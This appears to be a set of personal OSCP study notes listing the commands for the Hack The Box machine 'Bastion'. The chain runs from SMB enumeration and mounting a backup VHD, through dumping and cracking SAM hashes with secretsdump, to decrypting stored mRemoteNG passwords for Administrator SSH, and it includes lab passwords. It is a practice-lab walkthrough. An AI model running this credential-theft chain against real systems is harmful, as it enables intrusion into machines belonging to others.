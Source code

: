 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)

## 🔧 **Tools Used**
- `nmap`
- `smbmap`
- `smbclient`
- `mount` (with CIFS)
- `guestmount` (from `libguestfs-tools`)
- `secretsdump.py` (Impacket)
- [CrackStation](https://crackstation.net/)
- `ssh`
- `mRemoteNG`
- `java -jar decipher_mremoteng.jar`
- Custom Python decryption script
- PowerShell
- `type` (Windows)

---

## 💻 **Commands Used (Chronologically)**

### 📡 Recon
```bash
nmap -sT -p- --min-rate 10000 10.10.10.134
nmap -sCV -p 22,135,139,445 10.10.10.134
```

### 📁 [SMB](SMB.md) Enumeration
```bash
smbmap -H 10.10.10.134
smbmap -H 10.10.10.134 -u df
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/backups
```

### 🔗 Mount SMB Share
```bash
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
find /mnt/ -type f
```

### 🧩 Mount VHD
```bash
apt install libguestfs-tools
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
ls /mnt2/
```

### 🔓 Dump Credentials
```bash
cd /mnt2/Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### 🔐 [Crack Password](https://crackstation.net/)
```bash
# Use https://crackstation.net/ on hash 26112010952d963c8dc4217daec986d9
```

### 💻 [SSH](SSH.md) as User
```bash
ssh L4mpje@10.10.10.134
# password: bureaulampje
type C:\Users\L4mpje\Desktop\user.txt
```

### 📂 Inspect Installed Software
```powershell
cd "C:\Program Files (x86)\"
```

### 🔎 mRemoteNG Profile
```powershell
cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
type confCons.xml
```

### 🔓 [Decrypt Password via Python](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
```bash
# (Download jar from: https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
python3 mremoteng_decrypt.py -f FILE [-p CUSTOM_PASSWORD] V22XaC5eW4epRxRgXEM5RjuQe2UNrHaZSGMUenOvA1Cit/z3v1fUfZmGMglsiaICSus+bOwJQ/4AnYAt2AeE8g==
```

### 🔓 Decrypt via Python Script
```bash
./mRemoteNG-decrypt.py confCons.xml
```

### 🔐 SSH as Administrator
```bash
ssh administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🔗 Link to Writeup

📖 [0xdf’s Full Bastion Writeup](https://0xdf.gitlab.io/2019/09/07/htb-bastion.html)

---

Let me know if you'd like this converted into a markdown cheat sheet or printable version 📋